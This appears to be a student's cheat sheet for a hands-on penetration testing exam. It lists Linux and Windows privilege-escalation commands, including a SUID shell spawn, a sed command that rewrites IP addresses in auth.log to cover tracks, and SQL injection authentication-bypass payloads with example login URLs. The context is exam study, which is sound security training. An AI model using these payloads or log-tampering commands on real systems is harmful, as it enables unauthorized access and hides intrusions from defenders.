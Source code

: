   ```bash




  ```

### Privilege Escalation (Linux)

- View sudoers:
  ```bash
  cat /etc/sudoers
  sudo !!       # Rerun last command as sudo
  sudo -l       # Show available sudo commands
  find / -type f -perm /4000 -ls 2>/dev/null
  ./nice /bin/sh -p
  whoami
  echo $PATH
  sed -i 's/172\.16\.34\.4/192.168.1.103/g' auth.log
  ```

### Privilege Escalation (Windows)

- Search scheduled tasks:
  ```cmd
  schtasks /query /fo LIST /v
  ```
Test priority:
2 parts: 3 hours each.
SQL.
Part 1 closes out after 3 hours.
part 1: basic website
directory traversal
manipulation
command injection
ssh key masquerade
FUCKS EVERYONE:
calm down, read full question.

85% of it is linux based.

NOTES:
--------------------------------
####AUTHENTICATION BYPASS#####
'OR 1='1   $truth statement in username and password
Go to inspect > network (login so you get the post) > post > request > raw (radio button) > paste ?THERAWSTRING into google
x.x.x.x/login.php?username='OR 1='1&password=OR 1='1    ####put a ? after the php, and then paste the RAWSTRING directory after it.
x.x.x.x/login.php?username=%27OR+1%3D%271&passwd=%27OR+1%3D%271   ###Example of what it should look like
